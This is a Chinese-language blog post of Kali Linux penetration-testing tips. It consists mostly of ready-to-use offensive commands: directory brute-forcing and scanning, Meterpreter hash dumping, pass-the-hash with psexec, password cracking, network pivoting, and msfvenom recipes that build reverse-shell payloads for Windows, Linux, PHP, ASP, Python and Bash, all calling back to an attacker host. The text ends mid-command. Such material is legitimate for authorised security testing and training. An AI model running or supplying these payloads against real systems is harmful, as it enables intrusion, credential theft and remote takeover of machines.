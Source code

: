 ```yaml
---
author: 星火燎原@vxhly
title: kali 下渗透测试的一些小技巧
categories: [pentest]
tags: [Pentest, Security, Liunx]
date: 2017-05-20 13:23:12
---
```


::: tip
总结在渗透测试上的一些小技巧, 基本上都是 kali 下的一些常用的工具使用集合
:::
<!-- more -->

## DIRB

### 使用 DIRB 爆破目录

注: [DIRB](//dirb.sourceforge.net/) 是一个专门用于爆破目录的工具, 在 Kali 中默认已经安装, 类似工具还有国外的 [patator](//github.com/lanjelot/patator), [dirsearch](//github.com/maurosoria/dirsearch), [DirBuster](//www.owasp.org/index.php/Category: OWASP_DirBuster_Project), 国内的御剑等等。

``` bash
dirb http://[IP]:PORT /usr/share/dirb/wordlists/common.txt
```

## Niko

### 使用 Nikto 扫描 Web 服务

``` bash
nikto -C all -h http://[IP]
```

## wpscan

### 使用 wpscan 扫描 WordPress

``` bash
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url <http:http://[IP]/> –enumerate p
```

## httprint

### 使用 httprint 进行 HTTP 指纹识别

``` bash
wget //www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://[IP] -s signatures.txt
```

## Skipfish

### 使用 Skipfish 进行 Web 应用安全

注: Skipfish 是一款 Web 应用安全侦查工具, Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图, 最终生成的地图会在通过安全检查后输出。

``` bash
skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://[IP]
```

## nc

### 使用 nc 进行扫描

``` bash
nc -v -w 1 target -z 1-1000
for i in {101..102};do nc -vv -n -w 1 192.168.56.$i 21-25 -z;done
```

## us

### 使用 Unicornscan 进行信息收集和安全审计

``` bash
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

# -H 在生成报告阶段解析主机名
# -m 扫描类型 (sf - tcp, U - udp)
# -Iv - 详细
```

## Xprobe2

### 使用 Xprobe2 识别操作系统指纹

``` bash
xprobe2 -v -p tcp:80:open IP
```

## Meterpreter

### 使用 Meterpreter 进行端口转发

``` bash
# //www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址

meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```

### 使用 Meterpreter 获取哈希值

``` bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash http://[IP] cmd

# 或者

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

# 在或者

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```

#### 使用 Hashcat 破解密码

``` bash
hashcat -m 400 -a 0 hash /root/rockyou.txt
```

### 使用 metasploit 进行穿透

``` bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

#或者

# //www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

## ssh

### SSH 穿透

``` bash
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```

### SSH 穿透从一个网络到另一个网络

``` bash
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```

## msfvenom

### MSF Payloads

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```

### MSF 生成在 Linux 下反弹的 Meterpreter Shell

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```

### MSF 生成反弹 Shell (C Shellcode)

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```

### MSF 生成反弹 Python Shell

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```

### MSF 生成反弹 ASP Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```

### MSF 生成反弹 Bash Shell

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```

### MSF 生成反弹 PHP Shell

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```

### MSF 生成反弹 Win Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Co
```

